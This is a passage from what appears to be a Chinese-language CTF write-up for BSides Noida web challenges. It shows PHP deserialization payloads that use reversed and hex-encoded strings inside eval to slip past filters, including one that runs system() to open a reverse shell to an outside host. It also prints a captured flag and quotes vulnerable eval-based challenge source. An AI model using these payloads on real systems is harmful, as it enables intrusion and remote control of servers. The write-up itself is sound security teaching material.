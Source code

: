 ```php
    }
} else {
    highlight_file(__FILE__);
}
?>
```

可以发现只需要控制 option 为 getFlag，name 为 admin 即可进入到 note 的执行。由于这里进行了诸多限制，考虑使用十六进制和字符串反向绕过。构造出如下 payload 来读取 PHPINFO。

```plain text
O:6:"BSides":3:{s:6:"option";s:7:"getFlag";s:4:"name";s:5:"admin";s:4:"note";s:27:"eval(strrev(";)(ofniphp"));";}
```

可以发现在 disable_function 处没有禁用任何函数，因此直接一把梭反弹 shell。

```plain text
O:6:"BSides":3:{s:6:"option";s:7:"getFlag";s:4:"name";s:5:"admin";s:4:"note";s:139:"eval(strrev(";))'221362e3030253532333f2031323e283e2633313e283f2073647f2675646f20262e30296d20286371626220236d20286371626'(nib2xeh(metsys"));";}
```

反弹 shell 在 /home 下读到 fl4g_ne_xxx.txt 即为 flag。

```flag
BSNoida{Fre3_fl4g_f04_y0u_@@55361988!!!}
```

#### Calculate

> Are you a math prodigy? hehe

根据页面源码中的提示加上 🐶 为 key 的 GET 参数即可得到相对完整的源码。

```php
<?php
if(isset($_GET['🐶'])) {
    highlight_file(__FILE__);
}
function filter($payload) {
    if (preg_match("/[a-zA-BD-Z!@#%^&*:'\"|`~\\\\]|3|5|6|9/",$payload)) {
        return true;
    }
}
?>
<!-- ?🐶 -->
<?php
error_reporting(0);
include "config.php";

if (isset($_POST['VietNam'])) {
    $VN = $_POST['VietNam'];
    if (filter($VN)) {
        die("nope!!");
    }
    if (!is_string($VN) || strlen($VN) > 110) {
        die("18cm30p ??? =)))");
    }
    else {
        $VN = "echo ".$VN.";";
        eval($VN);
    }
} else {
    if (isset($_GET['check'])) {
        echo phpinfo();
    }
    else {
```
